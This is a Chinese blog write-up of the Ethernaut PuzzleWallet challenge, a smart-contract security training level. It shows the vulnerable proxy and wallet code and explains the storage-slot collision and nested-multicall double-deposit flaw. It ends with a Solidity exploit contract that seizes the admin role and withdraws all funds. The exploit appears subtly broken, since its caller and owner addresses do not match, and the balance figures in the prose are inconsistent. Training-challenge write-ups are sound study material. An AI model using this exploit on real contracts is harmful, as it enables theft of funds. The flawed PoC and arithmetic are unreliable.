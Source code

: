 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-18'
date: 2022-12-20 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

#### 第二十四关  PuzzleWallet 思路与POC

#### 目标: 几个精明的程序员构建了一个只有管理员可更新逻辑的钱包合约,劫持此钱包并成为代理合约的管理员

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";
//puzzle代理合约
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }
 //申请成为管理员函数,无任何限制
    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}
//puzzle逻辑实现合约
contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    
    mapping(address => bool) public whitelisted; //白名单map
    mapping(address => uint256) public balances;//地址->余额map
    
//初始化钱包,要求maxBalance变量为0
    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }
    //白名单限制  
    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }
   //设置钱包最大余额msg.sender必须在白名单上
    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
 //只有owner能新增白名单地址
    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }
//只有白名单上的用户才能往钱包里冲钱
    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }
//用户余额转出 没有重入漏洞
    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted    {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }
//同时调用多个逻辑合约的函数,但是deposit函数只允许被调用一次
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        //循环取出函数选择器
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // 防止用户重复存入token
                depositCalled = true;
            }
            //call函数没防止回调,应该if(selector == this.multicall.selector){revert}
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
/*
发现问题了嘛(逻辑漏洞):合约创建者似乎忘记了代理合约与逻辑实现合约的存储槽是共享的
address public pendingAdmin; slot0 <-   address public owner; slot0
address public admin;  slot1 <-   uint256 public maxBalance; slot1

poc思路:
代理合约上的pendingAdmin变量可以没有任何限制的修改,但是它对应的是逻辑合约的owner(禁止修改)
替换了owner变量之后我们就劫持了wallet合约!!
之后仅需要修改 maxBalance变量即可对于修改代理合约的admin(flag)

*/
```

#####  所以我们得出以下流程:
1.PuzzleProxy.proposeNewAdmin() -> PuzzleWallet.addToWhitelist(you address)

##### 执行完1之后:

##### 此时我们成功劫持了逻辑合约,接下来就是想办法将合约的余额全部提现,然后才能调用setMaxBalance修改admin 

##### 那么如何将合约的余额全部提现呢,当前合约余额是0.001ETH.我们此时成为了白名单用户余额是0.

##### 问题关键在于需要我们的余额大于合约余额或者保持跟合约余额保持一致,如何做到看multicall函数.

##### 此时multicall函数允许我们调用deposit函数一次, 合约余额:0.002ETH user:0.001ETH.

##### 那么如果我们构建calldata:

##### {

##### 使其先调用deposit一次{0.001ETH} 

##### 然后回调multicall从而刷新depositCalled值,然后再调用deposit呢?{两次调用用户余额0.002ETH}

##### }

##### 由于以上括起来的操作都是在一次交易中完成的,所以实际上我们仅发送了0.001ETH到合约

##### 所以就得到了 合约余额:0.002ETH user:0.003ETH.

2. ##### PuzzleWallet.execute(you address ,合约所有余额) ->PuzzleWallet.setMaxBalance(uint256(you address))

  ##### 完成 :ok_hand:

#### 最终POC:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Vulnerability/PuzzleWallet.sol";

contract hackWallet {
    PuzzleProxy public px = PuzzleProxy(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    PuzzleWallet public wallet = PuzzleWallet(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    function attack() public {
        //构造calldata
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(wallet.multicall.selector, depositSelector);

        //替换wallet合约中的owner
        px.proposeNewAdmin(msg.sender);
        wallet.addToWhitelist(msg.sender);

        //构造calldata使用户余额大于合约余额
        wallet.multicall{value: 0.001 ether}(nestedMulticall);
        //提现合约所有余额并且改变solt1 ,也就是改变proxy合约中的admin
        wallet.execute(msg.sender, 0.002 ether, "");
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
    }
}

```

